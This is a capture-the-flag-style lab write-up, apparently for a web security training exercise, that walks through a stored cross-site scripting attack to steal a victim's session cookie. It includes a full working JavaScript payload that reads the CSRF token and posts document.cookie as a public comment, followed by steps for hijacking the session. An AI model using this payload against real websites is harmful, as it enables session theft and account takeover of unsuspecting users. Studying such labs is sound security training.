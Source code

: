 ## Solution steps

- Open any blog post and write a comment to trigger an alert with random name and email.
- Notice that you can trigger an alert easily with this kind of payload: `<script>alert(1)</script>`
- But in this lab we have to steal victim's session cookie, then use this cookie to impersonate the victim.

- This Lab has 2 solutions, one using Burp Collaborator and another without using Burp Collaborator. I will explain the steps without using burp collaborator as I don't have the premium version. But I will paste the another solution at the bottom from their official solution for your and my convenience :)

### Without using Burp Collaborator

- This solution is considered less subtle because this will make the victim to post their session cookie as a comment and every user visiting the page will be able to see it.
- Open Burp suite and set-up proxy (Keep intercept off).
- Post a random comment.
- From Http history, view `POST /post/comment` and notice that the request contains your session cookie and a `csrf` parameter.
- Copy the following payload and paste it as comment with random name and email:
  <script>
  window.addEventListener('DOMContentLoaded', function(){

  var token = document.getElementsByName('csrf')[0].value;
  var data = new FormData();

  data.append('csrf', token);
  data.append('postId', 5);
  data.append('comment', document.cookie);
  data.append('name', 'chris');
  data.append('email', 'chris@01.com');
  data.append('website', 'http://www.chris.com');

  fetch('/post/comment', {
	  method: 'POST',
	  mode: 'no-cors',
	  body: data
  });
  });
  </script>
- Note: Change the `postId` parameter according to the post where you're commenting.
- Go back to the post and view that the session cookie and a secret is posted.
- Copy the session cookie, inspect the page using Ctrl+shift+c and go to application tab.
- Go to cookies and change the session cookie's value with the victim's cookie and hit Enter.
  
